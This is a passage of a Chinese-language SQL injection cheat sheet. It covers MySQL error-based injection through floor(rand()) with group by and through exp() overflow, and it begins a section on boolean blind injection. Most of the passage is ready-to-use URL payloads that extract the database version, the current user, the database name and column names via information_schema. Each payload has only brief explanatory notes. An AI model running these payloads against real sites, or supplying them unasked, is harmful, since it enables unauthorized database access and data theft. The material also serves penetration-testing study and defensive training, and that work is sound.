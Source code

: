 *floor的报错原理是rand和order by或group by的冲突*

**注：**
rand：随机生成0到x之间的数
order by：常用于确定数据库列数
group by：同order by

#### 常见用法
##### 爆破数据库版本信息
```
?id=1' and (select 1 from (select count(*),concat((select (select (select concat (0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
**注：**
information_schema：mysql中字带的表，内含table和colum，查询是须加上（s）
limit n,m：从n+1行获取前m行数据

##### 爆破当前用户
```
?id=1' and (select 1 from (select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x)a)%23
```
##### 爆破当前数据库
```
?id=1' and (select 1 from (select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x)a)%23
```
##### 爆破指定表的字段
```
?id=1' and (select 1 from (select count(*),concat((select (select (select distinct concat(0x7e,column_name,0x7e) from information_schema.columns where table_name=0x656d61696c73 limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x)a)%23
```

### exp
exp()报错的本质原因是溢出报错
例如：
```
mysql>select exp(~(select * from (select user())x))%23;
ERROR 1690 (22003):DOUBLE value is out of range in 'exp(~(select 'rooot@localhost' from dual))'
```
**注：**
%23：#

## Bool盲注
*Bool盲注通过将返回页面TRUE或FALSE当作回显以达到注入效果*

一般使用 "and 1=1" 和 "and 1=2"判断是否存在Bool盲注点

### 截断函数
substr()：字符串截取函数，例如substr(user(),1,1)，从user函数返回数据第一位偏移一位
